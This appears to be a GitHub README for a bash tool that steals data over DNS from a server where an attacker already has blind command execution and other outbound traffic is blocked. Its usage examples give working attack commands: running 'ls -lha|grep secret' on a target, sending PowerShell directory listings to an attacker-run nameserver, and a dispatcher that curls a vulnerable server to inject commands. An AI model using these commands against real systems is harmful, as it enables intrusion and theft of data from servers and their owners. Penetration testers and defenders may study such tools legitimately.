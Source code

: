 # DNS Data Exfiltration

A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked. The script is also compatible with exec style command execution (e.g. java.lang.Runtime.exec)

## Usage
1. Local testing for bash:
```bash
$ dns_data_exfiltration.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher.sh -c 'ls -lha|grep secret' -- stdbuf -oL tcpdump --immediate -l -i any udp port 53
```

Contents of dispatcher.sh:
> $@

2. powershell example where we ssh into our ns to get the incoming dns requests.
```bash
dns_data_exfiltration.sh -w -h yourdns.ns -d "Resolve-DnsName" -x dispatcher.sh -c 'gci | % {$_.Name}' -- stdbuf -oL ssh -i key user@HOST 'sudo tcpdump --immediate -l udp port 53'
```

Contents of dispatcher.sh
> curl https://vulnerable_server --data-urlencode "cmd=\${1}"

3. More information on the options
```bash
dns_data_exfiltration.sh --help'
```

### Comments
Currently the provided command gets executed multiple times on the server until all of its output is extracted. This behavior may cause problems in case that command is not idempotent (functionality or output-wise, e.g. process listing) or is time/resource intensive. 
A workaround to avoid running into issues for the aforementioned cases is to first store the command output into a file (e.g. /tmp/file) and then read that file.

### Todos
 - Concurrency in the data exfiltration loop